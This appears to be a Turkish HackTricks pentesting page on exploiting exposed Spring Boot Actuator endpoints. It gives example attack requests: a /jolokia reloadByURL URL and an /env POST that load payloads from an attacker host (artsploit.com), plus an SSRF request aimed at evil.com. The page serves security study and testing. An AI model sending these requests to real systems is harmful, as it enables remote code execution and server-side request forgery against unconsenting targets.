 # Spring Actuators

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Kaynak** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Spring Boot Actuators'ı Sömürme

**Orijinal gönderiyi kontrol edin** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Ana Noktalar:**

* Spring Boot Actuators, `/health`, `/trace`, `/beans`, `/env` gibi uç noktaları kaydeder. 1 ile 1.4 sürümleri arasında, bu uç noktalar kimlik doğrulama olmadan erişilebilir. 1.5 sürümünden itibaren yalnızca `/health` ve `/info` varsayılan olarak hassas değildir, ancak geliştiriciler genellikle bu güvenliği devre dışı bırakır.
* Belirli Actuator uç noktaları hassas verileri açığa çıkarabilir veya zararlı eylemlere izin verebilir:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart` ve `/heapdump`.
* Spring Boot 1.x'te, actuator'lar kök URL altında kaydedilirken, 2.x'te `/actuator/` temel yolu altındadır.

### **Sömürü Teknikleri:**

1. **'/jolokia' Üzerinden Uzaktan Kod Çalıştırma**:
* `/jolokia` actuator uç noktası, MBean'lere HTTP erişimi sağlayan Jolokia Kütüphanesini açığa çıkarır.
* `reloadByURL` eylemi, dış bir URL'den günlükleme yapılandırmalarını yeniden yüklemek için sömürülebilir; bu, kör XXE veya özel XML yapılandırmaları aracılığıyla Uzaktan Kod Çalıştırma ile sonuçlanabilir.
* Örnek sömürü URL'si: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **'/env' Üzerinden Yapılandırma Değişikliği**:
* Spring Cloud Kütüphaneleri mevcutsa, `/env` uç noktası çevresel özelliklerin değiştirilmesine izin verir.
* Özellikler, Eureka serviceURL'deki XStream deserialization açığını sömürmek gibi açıkları istismar etmek için manipüle edilebilir.
* Örnek sömürü POST isteği:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Diğer Kullanışlı Ayarlar**:
* `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url` ve `spring.datasource.tomcat.max-active` gibi özellikler, SQL enjeksiyonu veya veritabanı bağlantı dizelerini değiştirme gibi çeşitli sömürüler için manipüle edilebilir.

### **Ek Bilgiler:**

* Varsayılan actuator'ların kapsamlı bir listesi [burada](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) bulunabilir.
* Spring Boot 2.x'teki `/env` uç noktası, özellik değişikliği için JSON formatını kullanır, ancak genel kavram aynı kalır.

### **İlgili Konular:**

1. **Env + H2 RCE**:
* `/env` uç noktası ve H2 veritabanının kombinasyonunu sömürme detayları [burada](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) bulunabilir.
2. **Yanlış Yol Adı Yorumlaması Üzerinden Spring Boot'ta SSRF**:
* Spring çerçevesinin HTTP yol adlarındaki matris parametrelerini (`;`) ele alması, Sunucu Tarafı İstek Sahteciliği (SSRF) için sömürülebilir.
* Örnek sömürü isteği:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
</details>
{% endhint %}
